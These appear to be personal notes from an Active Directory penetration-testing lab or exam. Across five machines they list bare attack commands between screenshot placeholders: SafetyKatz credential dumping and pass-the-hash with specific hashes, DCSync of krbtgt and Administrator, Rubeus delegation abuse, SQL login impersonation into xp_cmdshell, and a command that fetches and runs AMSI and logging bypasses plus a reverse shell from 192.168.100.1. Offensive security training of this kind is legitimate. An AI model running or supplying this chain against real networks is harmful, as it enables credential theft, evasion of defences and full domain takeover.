 


Machine 1


![[Pasted image 20250331134427.png]]


![[Pasted image 20250331133858.png]]


using admodule

![[Pasted image 20250331134128.png]]


 ./SafetyKatz.exe "sekurlsa::ekeys" "exit"

![[Pasted image 20250331141931.png]]

 ./SafetyKatz.exe
 
 sekurlsa::pth /user:sharemanager /rc4:ad1b41d88cfd57b08f0fb50b1eee2541 /domain:CITADEL /sid:S-1-5-21-253487801-221673152-1815095224-1109 /run:cmd.exe

![[Pasted image 20250331184809.png]]


![[Pasted image 20250331152914.png]]

![[Pasted image 20250331152930.png]]

notepad \\srv71\ScheduledQueries\Queries.ps1


![[Pasted image 20250331152949.png]]

![[Pasted image 20250331184551.png]]

![[Pasted image 20250331184603.png]]

Machine 2



![[Pasted image 20250331194141.png]]

 .\SQLRecon.exe /a:winToken /h:SQLSRV3.glacis.corp /m:info

![[Pasted image 20250331194230.png]]


 
 .\SQLRecon.exe /a:winToken /h:SQLSRV3.glacis.corp /m:impersonate

![[Pasted image 20250331194246.png]]

 .\SQLRecon.exe /a:winToken /h:SQLSRV3.glacis.corp /m:query /c:"EXECUTE AS LOGIN = 'sqlsrv3adm'; EXECUTE AS LOGIN = 'sa'; EXEC xp_cmdshell 'whoami'; REVERT; REVERT;"

![[Pasted image 20250331204745.png]]

 .\SQLRecon.exe /a:winToken /h:SQLSRV3.glacis.corp /m:query /c:"EXECUTE AS LOGIN = 'sqlsrv3adm'; EXECUTE AS LOGIN = 'sa'; EXEC xp_cmdshell 'powershell -c iex(New-Object Net.WebClient).DownloadString(''http://192.168.100.1/sbloggingbypass.txt''); iex(New-Object Net.WebClient).DownloadString(''http://192.168.100.1/amsibypass.txt''); iex(New-Object Net.WebClient).DownloadString(''http://192.168.100.1/Invoke-PowerShellTcpEx.ps1'')'; REVERT; REVERT;"


![[Pasted image 20250331204825.png]]


![[Pasted image 20250331204841.png]]

machine 3

 Get-DomainUser -Identity dbmaster -Properties msDS-AllowedToDelegateTo

![[Pasted image 20250401104639.png]]


.\SafetyKatz.exe "lsadump::dcsync /user:krbtgt /authuser:dbmaster"

![[Pasted image 20250401104601.png]]


./Rubeus.exe s4u /user:dbmaster /aes256:842cd67c2aa74fa6c6472796180f5063b7437a3fdbfb3f9903b0d0741f17e959 /impersonateuser:administrator /msdsspn:"time/glacis-dc.glacis.corp" /altservice:ldap /domain:glacis.corp /ptt

![[Pasted image 20250401182850.png]]

./SharpKatz.exe --Command dcsync --User Administrator --Domain glacis.corp --DomainController glacis-dc.glacis.corp

![[Pasted image 20250401182948.png]]


./Rubeus.exe asktgt /user:Administrator /domain:glacis.corp /rc4:3bb32a944573427d3abeb19be73745ef /ptt



![[Pasted image 20250401183647.png]]


![[Pasted image 20250401183020.png]]


machine 4



 .\SafetyKatz.exe "lsadump::dcsync /user:glacis\glacis-dc$"  exit

![[Pasted image 20250402002414.png]]


![[Pasted image 20250402012547.png]]


.\SafetyKatz.exe "sekurlsa::pth /user:glacis-dc$ /domain:glacis.corp /ntlm:5e29a1dc54573fb8b9d9087269793377 /run:powershell.exe" "exit"

![[Pasted image 20250402002719.png]]

net group pawadmins studentuser /domain /add

 ./safetykatz.exe "sekurlsa::logonpasswords" "exit"

![[Pasted image 20250402003128.png]]

.\SafetyKatz.exe "sekurlsa::pth /user:studentuser /domain:citadel.corp /ntlm:4d85769c6a8592329ad5e958cf2b2332 /run:powershell.exe" "exit"

Enter-PSSession PAWSRV

![[Pasted image 20250402003436.png]]

Machine 5
![[Pasted image 20250402012947.png]]


.\SafetyKatz.exe "sekurlsa::logonpasswords" "exit"

![[Pasted image 20250402004248.png]]

.\SafetyKatz.exe "sekurlsa::pth /user:pawsrv$ /domain:glacis.corp /ntlm:fcddffc4d586ef9d3dc9bd26c4c17614 /run:powershell.exe" "exit"

![[Pasted image 20250402004342.png]]

./SafetyKatz.exe "lsadump::dcsync /domain:citadel.corp /user:Adminstrator"

![[Pasted image 20250402004514.png]]

.\SafetyKatz.exe "sekurlsa::pth /user:Administrator /domain:citadel.corp /ntlm:1a7bf8d59d5e6e599f641802ee7d2948 /run:powershell.exe" "exit"

![[Pasted image 20250402004614.png]]

Enter-Pssession -computername citadel-dc

![[Pasted image 20250402004658.png]]

